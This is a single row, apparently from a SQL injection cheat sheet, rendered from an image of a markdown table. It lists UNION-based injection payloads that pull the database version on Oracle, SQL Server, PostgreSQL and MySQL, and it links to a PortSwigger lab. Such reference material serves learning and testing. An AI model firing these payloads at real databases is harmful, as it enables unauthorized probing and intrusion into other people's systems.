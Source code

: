 | `x' UNION SELECT banner FROM v$version--`<br>`x' UNION SELECT version, NULL FROM v$instance--`<br>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | `x' UNION SELECT @@version, NULL--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                | `x' UNION SELECT version(), NULL--`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             | `x' UNION SELECT @@version, NULL-- `                                                                                                                                                                                                                                                                                                                                                                                    | Database Version extraction  via UNION injection with two columns. [See this labs](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle).                                                                                                                         |